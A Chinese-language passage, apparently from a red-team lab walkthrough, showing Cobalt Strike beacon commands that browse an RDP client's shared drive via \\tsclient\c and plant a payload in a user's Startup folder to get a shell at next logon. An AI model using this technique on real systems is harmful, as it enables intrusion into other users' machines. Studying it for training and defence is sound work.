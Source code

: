 ```
它为通过 RDP 共享的每个驱动器都有一个挂载点。```\\tsclient\c```是 RDP 会话的原始计算机上的 ```C: 驱动器```，在这种情况下```sql01.zeropointsecurity.local```

```
beacon> ls \\tsclient\c

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
          dir     02/10/2021 04:11:30   $Recycle.Bin
          dir     02/10/2021 03:23:44   Boot
          dir     02/20/2021 10:15:23   Config.Msi
          dir     10/18/2016 01:59:39   Documents and Settings
          dir     02/23/2018 11:06:05   PerfLogs
          dir     02/20/2021 10:14:59   Program Files
          dir     02/20/2021 10:13:41   Program Files (x86)
          dir     03/10/2021 17:19:54   ProgramData
          dir     10/18/2016 02:01:27   Recovery
          dir     02/20/2021 10:00:17   SQL2019
          dir     02/17/2021 18:47:03   System Volume Information
          dir     03/16/2021 15:24:24   Users
          dir     02/17/2021 18:47:20   Windows
 379kb    fil     01/28/2021 07:09:16   bootmgr
 1b       fil     07/16/2016 13:18:08   BOOTNXT
 1gb      fil     03/16/2021 14:22:21   pagefile.sys
```

我们可以上传一个有效载荷，例如 bat 或 exe 到jean.wise的启动文件夹。下次他们登录时，payload文件自动执行，我们得到一个 shell

```
beacon> cd \\tsclient\c\Users\jean.wise\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup
beacon> upload C:\Payloads\pivot.exe
beacon> ls

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
 174b     fil     05/15/2021 19:00:25   desktop.ini
 281kb    fil     05/15/2021 20:31:00   pivot.exe
```